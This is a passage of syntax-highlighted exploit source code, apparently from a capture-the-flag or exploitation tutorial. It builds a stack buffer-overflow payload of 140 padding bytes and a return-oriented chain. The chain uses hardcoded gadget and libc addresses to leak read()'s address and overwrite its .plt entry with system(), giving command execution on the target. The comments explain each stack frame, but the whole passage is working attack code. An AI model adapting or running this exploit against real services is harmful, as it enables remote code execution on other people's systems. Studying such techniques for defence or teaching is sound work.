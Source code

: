 ```
<span class="lnr">14 </span>write_addr = <span class="Constant">0x0804830C</span>
<span class="lnr">15 </span><span class="Comment"># From gdb, "x/x system"</span>
<span class="lnr">16 </span>system_addr = <span class="Constant">0xb7ec2450</span>
<span class="lnr">17 </span><span class="Comment"># Fram objdump, "pop/pop/pop/ret"</span>
<span class="lnr">18 </span>pppr_addr = <span class="Constant">0x080484b6</span>
<span class="lnr">19 </span>
<span class="lnr">20 </span><span class="Comment"># The location where read()'s .plt entry is</span>
<span class="lnr">21 </span>read_addr_ptr = <span class="Constant">0x0804961c</span>
<span class="lnr">22 </span>
<span class="lnr">23 </span><span class="Comment"># The difference between read() and system()</span>
<span class="lnr">24 </span><span class="Comment"># Calculated as  read (0xb7f48110) - system (0xb7ec2450)</span>
<span class="lnr">25 </span><span class="Comment"># Note: This is the one number that needs to be calculated using the</span>
<span class="lnr">26 </span><span class="Comment"># target version of libc rather than my own!</span>
<span class="lnr">27 </span>read_system_diff = <span class="Constant">0x85cc0</span>
<span class="lnr">28 </span>
<span class="lnr">29 </span><span class="Comment"># Generate the payload</span>
<span class="lnr">30 </span>payload = <span class="Special">"</span><span class="Constant">A</span><span class="Special">"</span>*<span class="Constant">140</span> +
<span class="lnr">31 </span>  [
<span class="lnr">32 </span>    <span class="Comment"># system()'s stack frame</span>
<span class="lnr">33 </span>    buf,         <span class="Comment"># writable memory (cmd buf)</span>
<span class="lnr">34 </span>    <span class="Constant">0x44444444</span>,  <span class="Comment"># system()'s return address</span>
<span class="lnr">35 </span>
<span class="lnr">36 </span>    <span class="Comment"># pop/pop/pop/ret's stack frame</span>
<span class="lnr">37 </span>    <span class="Comment"># Note that this calls read_addr, which is overwritten by a pointer</span>
<span class="lnr">38 </span>    <span class="Comment"># to system() in the previous stack frame</span>
<span class="lnr">39 </span>    read_addr,   <span class="Comment"># (this will become system())</span>
<span class="lnr">40 </span>
<span class="lnr">41 </span>    <span class="Comment"># second read()'s stack frame</span>
<span class="lnr">42 </span>    <span class="Comment"># This reads the address of system() from the socket and overwrites</span>
<span class="lnr">43 </span>    <span class="Comment"># read()'s .plt entry with it, so calls to read() end up going to</span>
<span class="lnr">44 </span>    <span class="Comment"># system()</span>
<span class="lnr">45 </span>    <span class="Constant">4</span>,           <span class="Comment"># length of an address</span>
<span class="lnr">46 </span>    read_addr_ptr, <span class="Comment"># address of read()'s .plt entry</span>
<span class="lnr">47 </span>    <span class="Constant">0</span>,           <span class="Comment"># stdin</span>
<span class="lnr">48 </span>    pppr_addr,   <span class="Comment"># read()'s return address</span>
<span class="lnr">49 </span>
<span class="lnr">50 </span>    <span class="Comment"># pop/pop/pop/ret's stack frame</span>
<span class="lnr">51 </span>    read_addr,
<span class="lnr">52 </span>
<span class="lnr">53 </span>    <span class="Comment"># write()'s stack frame</span>
<span class="lnr">54 </span>    <span class="Comment"># This frame gets the address of the read() function from the .plt</span>
<span class="lnr">55 </span>    <span class="Comment"># entry and writes to to stdout</span>
<span class="lnr">56 </span>    <span class="Constant">4</span>,           <span class="Comment"># length of an address</span>
<span class="lnr">57 </span>    read_addr_ptr, <span class="Comment"># address of read()'s .plt entry</span>
```